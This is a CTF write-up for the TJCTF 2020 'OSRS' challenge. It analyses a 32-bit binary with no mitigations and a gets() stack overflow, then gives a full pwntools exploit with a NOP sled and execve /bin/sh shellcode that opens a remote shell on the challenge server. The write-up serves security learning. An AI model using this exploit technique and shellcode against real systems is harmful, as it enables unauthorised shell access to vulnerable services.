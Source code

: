 # TJCTF 2020

## OSRS

> 50
>
> My friend keeps talking about Old School RuneScape. He says he made a [service](osrs) to tell you about trees.
>
> I don't know what any of this means but this system sure looks old! It has like zero security features enabled...
> 
> `nc p1.tjctf.org 8006`
>
> Written by  KyleForkBomb

Tags: _pwn_ _x86_ _buf_ _remote-shell_ _gets_ _shellcode_ _nop-sled_


## Summary

No mitigations, 32-bit stack overflow, NOP sled, shellcode.

Retro.


## Analysis

### Checksec

```
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

No mitigations.  Choose your own adventure.

    
### Decompile with Ghidra

![](get_tree.png)

Line 10, `gets` vulnerability.  `local_110` is large enough for shellcode.  

Line 14, leaks a stack address.  Although the challenge server _has like zero security features enabled..._, the location of the stack may change:

```
I don't have the tree -9332 :(
I don't have the tree -9204 :(
I don't have the tree -9188 :(
I don't have the tree -9220 :(
I don't have the tree -9156 :(
```

However, the general vicinity does not change much (remotely).

`local_110` is `0x110` bytes above the return address:

```
             int               EAX:4              <RETURN>
             undefined4        Stack[-0x10]:4     local_10
             undefined1        Stack[-0x110]:1    local_110                               
```

We just need to write out `0x110` bytes, the estimated location of the return address (+4 for the next stack line), a NOP sled, some shellcode, and cross our fingers.


## Exploit

```python
#!/usr/bin/python3

from pwn import *

#p = process('./osrs')
p = remote('p1.tjctf.org', 8006)
buf = 0xffffdc2b # -9173
ret = buf + 0x110

#http://shell-storm.org/shellcode/files/shellcode-851.php
shellcode = b'\x31\xc9\xf7\xe9\x51\x04\x0b\xeb\x08\x5e\x87\xe6\x99\x87\xdc\xcd\x80\xe8\xf3\xff\xff\xff\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x00'

payload  = 0x110 * b'A'
payload += p32(ret + 4)
payload += 100 * b'\x90'
payload += shellcode

p.recvuntil('Enter a tree type:')
p.sendline(payload)

p.interactive()
```

Output:

```
# ./exploit.py
[+] Opening connection to p1.tjctf.org on port 8006: Done
[*] Switching to interactive mode

I don't have the tree -9188 :(
$ cat flag.txt
tjctf{tr33_c0de_in_my_she115}
```
